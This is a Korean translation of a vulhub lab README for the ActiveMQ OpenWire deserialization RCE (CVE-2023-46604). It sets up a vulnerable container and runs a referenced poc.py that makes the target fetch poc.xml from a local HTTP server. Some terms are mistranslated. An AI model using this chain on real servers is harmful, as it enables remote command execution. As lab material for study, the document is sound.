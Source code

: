 # Apache ActiveMQ OpenWire 프로토콜 병렬화 RCE (CVE-2023-46604)

[원문(English version)](https://github.com/vulhub/vulhub/blob/master/activemq/CVE-2023-46604/README.md)

Apache ActiveMQ는 미국 Pachitea(Apache) 소프트웨어 재단에서 개발한 오픈 소스 메시징 미들웨어로 자바 메시징 서비스, 클러스터링, 스프링 프레임워크 등을 지원합니다.

OpenWire 프로토콜은 ActiveMQ에서 여러 다른 언어 및 플랫폼에서 ActiveMQ에 대한 네이티브 액세스를 허용하도록 설계되었습니다. Apache ActiveMQ 5.18.2 이전 버전은 역직렬화 취약성의 영향을 받았습니다. 이 취약성은 네트워크 액세스 권한을 가진 원격 공격자가 OpenWire 프로토콜의 직렬화된 클래스 유형을 조작하여 임의의 셸 명령을 실행하여 에이전트의 클래스 경로에 있는 모든 클래스를 인스턴스화할 수 있도록 할 수 있습니다.

참고 문헌:

- <https://activemq.apache.org/news/cve-2023-46604>
- <https://xz.aliyun.com/t/12929>
- <https://boogipop.com/2023/11/03/Apache%20ActiveMQ%20CVE-2023-46604%20RCE%20%E5%88%86%E6%9E%90/>
- <https://forum.butian.net/share/2566>

## 환경 설정

ActiveMQ는 다음 2개의 포트를 수신합니다:

| 기본 포트     | 기본 조건                             |
|--------------|--------------------------------------|
| 8161 (web)   | 원격 액세스에는 구성이 필요함           |
| 61616 (tcp)  | 원격 액세스 허용                       |

포트 61616에 병렬화 문제가 있습니다.

ActiveMQ 5.17.3 서버를 실행하려면 다음 명령을 입력합니다:

```
docker compose up -d
```

61616번 포트만 사용하면 되지만 악용 전에 서비스가 성공적으로 시작되었는지 확인하려면 `http://localhost:8161`에 접속하십시오.
![localhost:8161.png](localhost8161.png)

## Exploit

Python3 http.server 모듈을 사용하여 [poc.xml](poc.xml) 파일이 있는 폴더에서 HTTP 서버를 빠르게 시작할 수 있습니다:

```shell
python3 -m http.server 65431
```
![http.server.png](http.server.png)


그런 다음 [poc.py](poc.py)을 실행합니다:

```shell
python3 poc.py target port http://host.docker.internal:65431/poc.xml
```
![poc.py.png](poc.py.png)

다음 명령을 사용하여 ActiveMQ 컨테이너 내부를 확인할 수 있습니다:

```
docker exec cve-2023-46604-activemq-1 ls -l /tmp
```

touch /tmp/activeMQ-RCE-success가 성공적으로 실행되었음을 보여 줍니다.

![ls-l-tmp.png](ls-l-tmp.png)